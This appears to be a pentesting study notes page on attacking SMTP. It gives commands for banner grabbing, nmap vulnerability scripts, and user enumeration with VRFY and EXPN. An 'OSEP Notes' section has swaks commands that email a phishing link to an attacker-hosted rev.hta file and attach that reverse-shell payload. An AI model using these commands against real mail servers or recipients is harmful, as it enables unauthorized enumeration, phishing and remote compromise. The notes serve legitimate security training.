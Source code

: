 # (25) SMTP

<details>

<summary>Intro</summary>

* Used to send, receive, and relay outgoing emails
* Main attacks are user enumeration and using an open relay to send spam

</details>

<details>

<summary>Banner Grabbing</summary>

```bash
telnet 10.3.3.47 25
```

* Need to wait for a while

</details>

<details>

<summary>Nmap</summary>

```
nmap 192.168.1.101 --script=smtp* -p 25
```

<pre><code><strong>nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 $ip
</strong></code></pre>

</details>

<details>

<summary>User Enumeration</summary>

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $ip
```

* Use `/usr/share/seclists/Usernames/Names/names.txt` wordlist

#### For multiple servers

```bash
for server in $(cat smtpmachines); do echo "******************" $server "*****************"; smtp-user-enum -M VRFY -U userlist.txt -t $server;done
```

</details>

<details>

<summary>Manual Enumeration</summary>

#### Command to check if a user exists

```
VRFY root
```

#### Command to ask the server if a user belongs to a mailing list

```
EXPN root
```

</details>

<details>

<summary>Sending Email using NC</summary>

#### Identify yourself to the mail server

```
HELO example.com
```

#### Specify a return address for the message (if message bounces)

```
MAIL FROM:bar@example.org
```

#### Specify at least one recipient for the message

```
RCPT TO:foo@example.com
```

#### Send the message data

```
DATA
From: bar@example.org
To: foo@example.com
Subject: Test
Date: Thu, 20 Dec 2012 12:00:00 +0000

Testing
.
```

</details>

## OSEP Notes Below

<details>

<summary>Send Email via Swaks</summary>

```bash
# Send phishing link
swaks --to will@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues"  --from bob@example.com

# Send attachment
swaks --to will@example.com --server 192.168.131.159 --body "Hello, check out my link." --header "Subject: Issues"  --from bob@example.com --add-header "MIME-Version: 1.0" --attach @rev.hta
```

</details>


